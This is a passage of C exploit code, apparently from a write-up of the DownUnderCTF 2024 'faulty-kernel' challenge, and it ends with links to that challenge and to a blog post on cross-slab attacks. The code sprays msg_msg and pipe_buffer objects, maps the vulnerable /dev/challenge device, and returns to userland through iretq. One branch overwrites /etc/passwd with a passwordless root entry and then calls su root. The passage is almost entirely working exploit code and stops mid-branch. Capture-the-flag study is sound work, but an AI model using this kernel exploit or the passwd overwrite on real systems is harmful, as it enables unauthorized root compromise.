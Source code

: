 ```c
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    // int sk_skt[SOCKET_NUM][2];
    int pipe_fd[PIPE_NUM][2];
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
        // initSocketArray(sk_skt);
        initPipeBuffer(pipe_fd);
    }
#endif // 
int fd = 0;
#define HAS_PASSWD 0
int main(){
    libxInit();
    msgSpray(0x3d0,0x100-3,dp('i',0x3d0));
    msgSpray(0xd0,0x100-3,dp('\x99',0xd0));
    pipeBufferResize(pipe_fd[0][0],16);
    pipeBufferResize(pipe_fd[0][1],16);
    pipeBufferResize(pipe_fd[1][0],16);
    pipeBufferResize(pipe_fd[1][1],16);

    fd = open("/dev/challenge",2);
    pipeBufferResize(pipe_fd[2][0],16);
    pipeBufferResize(pipe_fd[2][1],16);
    pipeBufferResize(pipe_fd[3][0],16);
    pipeBufferResize(pipe_fd[3][1],16);
    __u8 *res = mmap(0xdeadbeef000,0x1000,0x7,1,fd,0x80000);
    
    for(int i = 0  ; i < 0x4 ; i ++){
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }
    if(HAS_PASSWD){
        int fds[0x300] = {0}; 
        for(int i = 0 ; i < 0x200 ; i++)
            fds[i] = open("/etc/passwd",0);
        unsigned int *file_mode = res+20;
        *file_mode = 0x004f801f; // Change mode to writable;
        for(int i = 0 ; i < 0x200 ; i++)
            write(fds[i],"root::0:0:root:/root:/bin/sh\n",30);
        system("/bin/su root");
    }else{
        int fds[0x300] = {0}; 
        for(int i = 0 ; i < 0x40 ; i++)
            fds[i] = open("/init",0);
```

[1]: https://n132.github.io/2024/02/29/IPS-Cross-Slab-Attack.html
[2]: https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/pwn/faulty-kernel